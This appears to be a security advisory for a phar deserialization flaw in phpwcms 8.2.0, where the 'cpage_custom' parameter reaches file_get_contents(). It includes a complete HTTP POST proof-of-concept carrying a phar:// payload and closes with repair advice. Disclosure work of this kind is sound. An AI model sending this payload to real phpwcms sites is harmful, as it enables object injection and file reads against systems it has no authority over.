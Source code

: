 # `phar` deserialization vulnerability in `cnt21.readform.inc.php#file_get_contents`

## 0x01 Affected version
vendor: https://github.com/slackero/phpwcms

version: 8.2.0

php version: 7.x

## 0x02 Vulnerability description

The phpwcms Content Management System is vulnerable to PHP Object Injection in the article content type 21 (Custom Source Tab) through deserialization of untrusted input. An attacker can provide a malicious PHAR URL via the 'cpage_custom' parameter in the content editing form, which is passed directly to the file_get_contents() function without proper validation. This vulnerability allows attackers to inject PHP Objects through a PHAR file or utilize various PHP stream wrappers for side-channel attacks. No known POP (Property Oriented Programming) chain has been identified in the core application, meaning this vulnerability may have limited impact unless other components with suitable gadgets are installed. If a POP chain exists through additional components, attackers could potentially delete files, access sensitive information, or execute arbitrary code depending on the available gadgets. This vulnerability can be exploited by attackers with access to the phpwcms admin interface. The attack requires a valid CSRF token to be included in the request.

![alt text](../dists/phpwcms1.png)

```text
POST /phpwcms.php?csrftoken=d20e0993a60841067fe209bd82884f24&do=articles&p=2&s=1&aktion=2&id=1 HTTP/1.1
Host: dem0.com
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
Referer: http://dem0.com/phpwcms.php?csrftoken=d20e0993a60841067fe209bd82884f24&do=articles&p=2&s=1&id=1
Origin: http://dem0.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Cookie: phpwcmsBELang=en; PHPSESSID=ndprgg1lkuk77l5vrhdbejep2e
Cache-Control: max-age=0
Content-Length: 219

csrf_token_name=csrf6825cb2230f394.61788130&csrf_token_value=08854df019d6a36b5c096237306340b9c93a9751bc99487c0fd94541ff60f09898f95d44b72a50766972de827e7ae15b9feb13d6a88801f6c9280a03a98632fa&ctype=21&csorting=0&caktion=1&cpage_source=1&caid=1&cpage_custom=phar%3A%2F%2F..%2F..%2Fexp.phar&ctitle=2&csubtitle=3&ccomment=4&cpaginate_title=5&cbefore=&cafter=&cid=1&clivedate=&ckilldate=&cblock=2
```

## 0x03 Repair suggestions
To prevent the exploitation of this vulnerability, it is important to implement proper input validation for the 'cpage_custom' parameter. The application should restrict the protocols that can be used with file_get_contents() to only allow safe values, explicitly blocking dangerous protocols like 'phar://', 'php://', and other potentially malicious stream wrappers. Additionally, implementing a whitelist approach that only allows specific protocols (such as 'http://' and 'https://') would provide stronger protection. Proper sanitization and validation of user input are critical for mitigating this risk.

This vulnerability can also lead to arbitrary file read issues. See the reference link below:

[https://www.synacktiv.com/publications/php-filter-chains-file-read-from-error-based-oracle](https://www.synacktiv.com/publications/php-filter-chains-file-read-from-error-based-oracle)
